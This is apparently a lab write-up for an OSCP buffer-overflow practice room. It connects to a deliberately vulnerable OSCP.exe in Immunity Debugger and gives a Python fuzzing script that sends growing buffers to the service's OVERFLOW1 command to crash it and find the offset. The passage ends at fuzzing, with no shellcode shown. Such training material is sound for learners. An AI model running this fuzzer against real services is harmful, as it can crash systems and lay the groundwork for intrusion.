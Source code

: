 
Step1:- setting up the envoirment. 
> Deploy the machine and connect to it using rdp or xfreerdp 

lets connect to machine in my case I used xfreerdp 

`xfreerdp /u:admin /p:password /cert:ignore /v:10.10.73.127`

done with deployment so lets launch ` Immunity Debugger` and upload the OSCP.exe from  vulnerable-apps folder.

and set the environment to tmp folder using mona 
`!mona config -set workingfolder c:\mona\%p`

**lets start the game**

after uploading the binary lets click on play button so we can execute the binary, after doing that I got to know there is something listining on port 1337 so lets nc that!

`nc 10.10.73.127 1337`

![nc](https://i.imgur.com/9kYcR0J.png)


so as you can see it gives us 10 overflows which we need to overflow so lets get started with first one. <br>

in a buffer-overflow the first thing is we need to verify wether can we really overflow it? so with the fuzz script lets check if we can overflow it and find out the offset.

```python
import socket, time, sys

ip = "10.10.73.127"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
